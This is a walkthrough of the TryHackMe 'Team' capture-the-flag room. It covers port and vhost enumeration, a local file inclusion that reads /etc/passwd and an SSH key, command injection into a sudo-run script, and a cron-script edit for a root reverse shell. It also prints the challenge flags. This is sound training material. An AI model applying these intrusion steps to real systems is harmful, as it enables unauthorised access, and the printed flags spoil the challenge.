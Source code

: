 # Team CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Team** CTF challenge on [TryHackMe](https://tryhackme.com/r/room/teamcw). 
---
Using nmap to find open ports

![nmap](imgs/nmap.png "nmap")

Open ports `21 ftp`,`22 ssh` and `80 http`

Using gobuster to find directories

```
gobuster dir -w /snap/seclists/current/Discovery/Web-Content/common.txt -u http://10.10.130.165   
```
![gobuster-basic](imgs/gobuster-basic.png "gobuster-basic")

No interesting directories

Main page is Apche default page but with a twist, the `<title>` is changed

![title](imgs/title.png "title")

Adding team.thm to /etc/hosts

![hosts1](imgs/hosts1.png "hosts1")

team.thm webpage

![team-web](imgs/team-web.png "team-web")

Using gobuster again

```
gobuster dir -w /snap/seclists/current/Discovery/Web-Content/common.txt -u http://team.thm
```

![gobuster-team](imgs/gobuster-team.png "gobuster-team")

Gobuster found `robots.txt` with `dale` string 

![robots](imgs/robots.png "robots")

Using ffuf to enumerate vhosts

```
ffuf -w /snap/seclists/current/Discovery/DNS/subdomains-top1million-20000.txt -u http://team.thm/ -H "Host: FUZZ.team.thm" -fs 11366
```

![vhost-ffuf](imgs/vhost-ffuf.png "vhost-ffuf")

Editing /etc/hosts again and adding `dev.team.htm`

dev.team.thm webpage

![dev-site](imgs/dev-site.png "dev-site")

![dev-src](imgs/dev-src.png "dev-src")

Possible file inclusion, changing URL to /etc/passwd as example


```
http://dev.team.thm/script.php?page=/etc/passwd
```

![lfi-passwd](imgs/lfi-passwd.png "lfi-passwd")

notable users `dale` and `gyles`

I tried diffrent common configuration files for FTP and SSH and found Dale `openSSH private key`

```
http://dev.team.thm/script.php?page=/etc/ssh/sshd_config
```

![sshd](imgs/sshd.png "sshd")

Login to ssh with a private key as dale, remember to `chmod 600` key

![user-sudol](imgs/user-sudol.png "user-sudol")

> [!IMPORTANT]
> User flag from `user.txt`: `THM{6Y0TXHz7c2d}`

![admin-checks](imgs/admin-checks.png "admin-checks")

now we can do

```
sudo -u gyles /home/gyles/admin_checks
```

We can exploit this file, in first input we can type anything, but in second we can type `bash` to spawn a shell as gyles, then we can use python3 to stabilize it

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![gyles](imgs/gyles.png "gyles")

In /opt there is interesting folder `admin_stuff` that contains `script.sh`

![script](imgs/script.png "script")

Now i check those files mentioned in script.sh

The main_backup.sh is writeable

![backup-priv](imgs/backup-priv.png "backup-priv")

Now i edit main_backup to generate reverse shell as root, the script is run by cronjob every minute. **This privilege escalation stage could be done in various ways.**

![new-bakup](imgs/new-bakup.png "new-bakup")

![root](imgs/root.png "root")

> [!IMPORTANT]
> Root flag from `root.txt`: `THM{fhqbznavfonq}`

# MACHINE PWNED
